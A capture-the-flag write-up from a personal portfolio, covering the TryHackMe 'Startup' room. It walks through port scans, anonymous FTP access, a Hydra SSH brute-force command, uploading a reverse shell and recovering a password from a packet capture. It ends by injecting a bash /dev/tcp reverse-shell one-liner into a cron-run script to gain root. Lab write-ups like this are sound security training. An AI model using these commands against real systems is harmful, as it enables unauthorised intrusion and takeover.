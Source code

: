 ## Startup

### Difficulty
Easy

### Skills gained
Cron job exloitation, web exploits, wireshark

### Link
https://tryhackme.com/room/startup

### Writeup

• As usual, the first thing I ran was a basic nmap scan which revealed 3 ports open

    nmap -T4 -p- TARGETIP

![image](https://github.com/jodie9779/Cyber-Security-Portfolio/blob/main/images/startup/startup%20nmap%20basic.png)


• I then ran a more in-depth nmap scan to discover more about these open ports

    nmap -T4 -A -p21,22,80 TARGETIP


![image](https://github.com/jodie9779/Cyber-Security-Portfolio/blob/main/images/startup/startup%20nmap%20advanced.png)

• I also ran a dirb scan to see if we could find any hidden directories
    dirb http://TARGETIP wordlist.txt


![image](https://github.com/jodie9779/Cyber-Security-Portfolio/blob/main/images/startup/startup%20dirb.png)

• This scan found a files directory

• The initial landing page stated that the site was in development. No extra information could be gained from looking at the source code

![image](https://github.com/jodie9779/Cyber-Security-Portfolio/blob/main/images/startup/startup%20landing%20page.png)

• There us a 'contact us' button on this page, which looks like it is meant to contain an email address however it does not

• The files page showed a few files, which indicated a possible vulnerability

• As the earlier scans indicated that there was an FTP server which was vulnerable to anonymous login, I decided to try this route. 
    
    ftp TARGETIP
    
• I used the username 'anonymous' and the password 'ftp@' which successfully logged me in.

• There were 2 files on the FTP server, which I was able to download. These files were the same as the ones shown on the files page as well as having a hidden file on .test.log

![image](https://github.com/jodie9779/Cyber-Security-Portfolio/blob/main/images/startup/startup%20ftp%20files.png)

• notice.txt was a note to stop leaving amongus files on the server. It didn't give a lot of information away, but it did let us know that someone called Maya works at the company. The other two files did not show anything

• As the nmap scan also showed that ssh was available on the target, I decided to use Hydra to try and brute force using the username maya

    hydra -l maya -P wordlist.txt ssh://TARGETIP

• Whilst Hydra was running I decided to try and upload a reverse shell on the ftp server

• Logging into the ftp server, I couldn't upload a file to the initial directory, however I could to once I changed to the ftp directory, so I uploaded the reverse shell by pentestmonkey

• I set up a listener, then went to the files page and clicked on the reverse shell, which gave me a shell and the first ingredient!

![image](https://github.com/jodie9779/Cyber-Security-Portfolio/blob/main/images/startup/startup%20reverse%20shell%20upload.png)

• I then had to try and escalate my privileges, to do this I looked around the files until I found one called 'suspicious.pcapng'

• I copied this file to the ftp server, then downloaded it onto my machine

    cp suspicious.pcapng > /var/www/html/files/ftp

• I analysed it through wireshark, which allowed me to find out that someone else had used a reverse shell to get into the target machine

![image](https://github.com/jodie9779/Cyber-Security-Portfolio/blob/main/images/startup/startup%20pcap%20port%20.png)

• I exported the data as plaintext, then searched for the word 'password' which gave me Lennie's password

![image](https://github.com/jodie9779/Cyber-Security-Portfolio/blob/main/images/startup/startup%20pcap%20password.png)

• I used SSH to get into Lennie's account, and was able to get the flag from 'user.txt'

• My last step was to find a way to gain root access. To do this I had a look around the scripts folder in Lennie's directory

• The scripts folder had a script called planner.sh, which Lennie did not have privileges to edit, however looking at the code it referred to /etc/print.sh

• I had a look at print.sh, which Lennie could edit, and changed it to a reverse shell which I got from revshells.com

    exec 5<>/dev/tcp/TARGETIP/PORT;cat <&5 | while read line; do $line 2>&5 >&5; done

• This gave me root access, and allowed me to get the last flag from root.txt
    


